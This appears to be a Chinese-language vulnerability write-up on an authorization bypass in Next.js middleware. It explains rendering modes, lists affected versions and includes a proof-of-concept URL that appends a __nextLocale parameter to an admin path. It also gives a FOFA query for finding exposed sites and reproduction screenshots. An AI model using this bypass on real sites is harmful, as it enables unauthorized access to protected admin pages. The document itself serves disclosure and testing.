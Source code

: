 ### 直接返回渲染好的html  
#### SSR模式  
> **简单来说就是在每个请求后，都会在后端渲染一个html页面，进行返回**  
  
#### SSG模式  
> **简单来说在网站搭建的时候就会生成html静态页面了，在后续请求的时候是不会进行改变的**  
  
#### ISR模式  
> **简单来说就是将SSR和SSG进行了结合，在部署的时候就生成了html页面（SSG），在后续会根据条件或者时间进行html页面的重新生成并返回(SSR)**  
  
## 漏洞POC  
```
/admin?__nextLocale=anything# 其中/admin为网站对应的后台页面# 个人测试anything可以是任何东西，但是不能和后台路径一样，也就是不能为/admin?__nextLocale=admin
```  
## 漏洞的触发条件  
#### 1. 基于路径名的中间件中执行授权（SSG,ISR的一种形式）  
#### 2. 9.5.5 < Next.js <14.2.14  
## 漏洞的描述  
> **Next.js 是一个用于构建全栈 Web 应用程序的 React 框架。在受影响的版本中，如果 Next.js 应用程序正在基于路径名的中间件中执行授权，则可能会绕过应用程序根目录下的页面的此授权，允许未经授权访问Next.js应用程序中的根级页面，这些页面本应受到授权检查的保护**  
  
```
FOFA: app="NEXT.JS"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccIweSRcPQXo5g9ibvmg6Eu7Kde4rODAq3QIqToNS7cDzl0EuY7nzYwY6eWWia2UuBLsNlojLHXCmZw/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现  
### 访问网站的后台页面  
  
**https://xxx.xxx.xxx/admin**[3]  
> **发现存在鉴权，会直接进行返回到/auth页面**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMcCLfP1uSspEahrICttEf3jGibSue9hUNeWsQU6Ud2yX8xxb5MAEMGFw/640?wx_fmt=png&from=appmsg "")  
### 使用poc进行访问  
```
https://xxx.xxx.xxx/admin?__nextLocale=111
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMKCAp8aJrEk5GeDQf3ab3BSLCW8sz1RmpAe9nlUUCialW9cic0wymKv1Q/640?wx_fmt=png&from=appmsg "")  
## 对该漏洞的理解  
> **简而言之：这个漏洞能绕过前端路径的鉴权，如果其直接返回了完整的html页面，危害就会很大，能获取到全部的数据，又或者采用的是前后端分离的模式（CSR），如果存在前端路径的鉴权能够用该方式进行前端鉴权的绕过（有很多没有前端路径的鉴权，就不需要使用该方法了，直接访问也是可以正常后台页面的），但是能否存在有效数据，就和其后端鉴权有关了，但是可以访问后台页面，可以更方便的测试接口（例如绕过vue路由守卫！），如果api有鉴权，那么这个漏洞危害很有限，所以遇到next.js的站点还是可以试试。**  
  